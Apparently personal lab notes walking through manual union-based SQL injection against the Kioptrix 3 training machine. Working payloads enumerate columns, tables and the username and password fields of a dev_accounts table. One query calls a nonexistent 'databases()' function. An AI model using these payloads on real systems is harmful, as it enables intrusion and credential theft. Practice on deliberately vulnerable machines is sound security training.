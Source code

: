# How to manually do sqlinjection

## Following steps to exploit sql   (example from kioptrix3)


everywhere where id in request try to append '
id = 1'
-->sql error

find out number of columns 

http://example.com/gallery/gallery.php?id=1 order by **1**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **2**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **3**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **4**-- -> works

http://example.com/gallery/gallery.php?id=1 order by **5**-- -> works
http://example.com/gallery/gallery.php?id=1 order by **6**-- -> works

http://example.com/gallery/gallery.php?id=1 order by **7**-- --> ERROR

----> N-1 --> 7 -1 = 6 Columns


Finding Accessible Columns
http://example.com/gallery/gallery.php?id=-1 union all select **1,2,3,4,5,6**--
2
3


zahl 2 und 3 --> Vulnerable Stelle 2 und 3 --> group concat an 2 oder 3. stelle

http://kioptrix.com/gallery/gallery.php?id=-1 union select 1,2,databases(),4,5,6--



http://example.com/gallery/gallery.php?id=-1 union select 1,2,group_concat(table_name),4,5,6 from information_schema.tables where table_schema=database()--

dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users

http://example.com/gallery/gallery.php?id=-1%20union%20select%201,2,group_concat(table_name),4,5,6%20from%20information_schema.tables%20where%20table_schema=database()--




http://example.com/gallery/gallery.php?id=-1 union select 1,group_concat(column_name),3,4,5,6 FROM information_schema.columns WHERE table_name=CHAR(100, 101, 118, 95, 97, 99, 99, 111, 117, 110, 116, 115)--

id,username,password


tags: #wget #ftp #linux 
